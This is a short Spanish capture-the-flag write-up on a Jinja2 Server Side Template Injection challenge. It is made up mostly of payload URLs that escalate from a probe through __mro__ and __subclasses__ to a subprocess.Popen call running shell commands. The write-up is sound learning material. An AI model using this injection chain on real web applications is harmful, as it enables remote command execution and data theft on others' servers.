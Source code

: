## README templated challenge

- Vulnerabilidad en los Server Side Template Injection con Jinja2

- Vemos que es vulnerable frente a SSTI mediante:
	* `http://157.245.40.149:31530/{{7*'7'}}`

- Vemos los ficheros con:
	* `http://157.245.40.149:31530/{{config.files()}}`

- Leemos los métodos que existen con:
	* `http://157.245.40.149:31530/{{ config.from_object(‘os’) }}`
	* `http://157.245.40.149:31530/{{config.files()}}`
	

Cualquier item que se encuentre en el objeto config puede ejecutar bajo la vulnerabilidad SSTI.Necesario conocer bien que hacen \_\_mro\_\_ y \_\_subclasses\_\_.

- Seleccionamos un nuevo estilo de objeto para acceder al objeto base
	* `http://157.245.40.149:31530/{{''.__class__.__mro__}}`
- Vemos las funciones que hay mediante
	* `http://157.245.40.149:31530/{{''.__class__.__mro__[1].__subclasses__()}}`

- Vemos que la función `<class 'subprocess.Popen'>` se encuentra en el número 414

- Comando final
	* `http://157.245.40.149:31530/{{''.__class__.__mro__[1].__subclasses__()[414]('cat flag.txt',shell=True,stdout=-1).communicate()}}`
